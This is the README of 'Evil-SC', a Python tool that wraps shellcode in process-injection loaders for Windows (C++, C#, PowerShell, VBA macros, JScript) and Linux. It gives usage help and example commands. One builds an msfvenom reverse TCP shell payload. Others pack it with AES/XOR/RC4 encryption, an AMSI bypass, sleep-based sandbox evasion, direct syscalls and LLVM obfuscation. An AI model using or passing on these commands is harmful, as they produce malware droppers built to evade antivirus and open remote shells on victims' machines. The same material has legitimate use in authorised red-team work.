 # Evil-SC - Template-based Shellcode Loader

## Introduction
Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for injecting shellcode into a target process, using different methods and encoders.

!! WORK IN PROGRESS !!

## Todo
- Functions name randomization ?
- Implement nullgate Indirect Syscalls
- Implement SecureString Encryptor for Powershell
- Make new Sandbox evasion templates
- Make new methods templates

## Usage
1. Clone the repository:
```bash
git clone https://github.com/your_username/evil-sc.git
cd evil-sc
```

2. Install dependencies
```
sudo apt install mono-complete, mingw-w64
```

3. Run the script
```
$ python evil-sc.py windows -h

    ███████╗██╗   ██╗██╗██╗      ███████╗ ██████╗
    ██╔════╝██║   ██║██║██║      ██╔════╝██╔════╝
    █████╗  ██║   ██║██║██║█████╗███████╗██║
    ██╔══╝  ╚██╗ ██╔╝██║██║╚════╝╚════██║██║
    ███████╗ ╚████╔╝ ██║███████╗ ███████║╚██████╗
    ╚══════╝  ╚═══╝  ╚═╝╚══════╝ ╚══════╝ ╚═════╝
                                                 @v4resk

usage: evil-sc.py [-h] {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils} ...

Template-based Shellcode Loader

positional arguments:
  {windows_cpp,windows_cs,windows_pwsh,windows_vba,windows_js,linux,utils}
                        Module to be used
    windows_cpp         Native Windows Shellcode Loader (C++)
    windows_cs          Dotnet Windows Shellcode Loader (C#)
    windows_pwsh        Powershell Windows Shellcode Loader
    windows_vba         Microsoft Office Macros Shellcode Loader (VBA)
    windows_js          JScript Windows Shellcode Loader
    linux               Native Linux Shellcode Loader (C++)
    utils               Utility module for shellcodes

options:
  -h, --help            show this help message and exit

```

## Examples

1. Generate a shellcode
```bash
# Generate a shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o /tmp/msfout.bin
```

2. Pack the shellcode (see examples below) ! 
```bash
# Use Venoma C# template, XOR and AES encryption, AMSI Bypass
python evil-sc.py windows_cs -m Venoma msf.raw -em amsi -e aes -e xor

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, GetSyscallStub for direct syscalls, obfuscation using LLVMO
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep --llvmo

# Use DSys_CurrentThread C++ template, RC4 encryption, sleep for evasion, SysWhispers3 for direct syscalls
python evil-sc.py windows_cpp -m DSys_CurrentThread msf.raw -e rc4 -em sleep -sc SysWhispers3

# Use PowerIject Powershell template, Double XOR encryption, AMSI Bypass
python evil-sc.py windows_pwsh -m PowerInject msf.raw -e xor -e xor -em amsi

# Use simple exec C++ template for linux, with xor encryption, obfuscation using LLVMO
python evil-sc.py linux -m SimpleExec msf.raw -e xor -l
```


## Resources

[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()